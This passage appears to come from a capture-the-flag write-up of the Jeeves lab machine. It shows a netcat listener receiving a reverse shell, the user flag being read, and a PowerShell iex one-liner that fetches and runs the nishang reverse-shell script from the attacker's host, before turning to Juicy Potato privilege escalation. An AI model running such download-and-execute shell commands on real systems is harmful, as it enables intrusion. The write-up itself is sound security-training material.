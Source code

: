 At this point, I was running commands as the `kohsuke` user and grabbed the `user.txt` flag:

```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49679.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>cd C:\
C:\>type c:\Users\kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a
```

### Upgrading the Reverse Shell

At this point, I upgraded my `cmd.exe` session to a powershell session by using the `Invoke-PowerShellTcp.ps1` script from the [nishang](https://github.com/samratashok/nishang) PowerShell post-exploitation framework to get a netcat PowerShell reverse shell session.

The command below invokes PowerShell to download the `Invoke-PowerShellTcp.ps1` script from a web server on my Kali machine and execute it:

```dos
powershell -Command "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')"
```

```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49681.
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\>
```

## Privilege Escalation Path 1 (Juicy Potato)

Checking the `kohsuke` user's groups and privileges revealed that they were part of the `NT AUTHORITY\SERVICE` group and had the `SeImpersonatePrivilege` privilege:

```none
PS C:\>whoami /all

USER INFORMATION
----------------

User Name      SID
============== ===========================================
jeeves\kohsuke S-1-5-21-2851396806-8246019-2289784878-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
```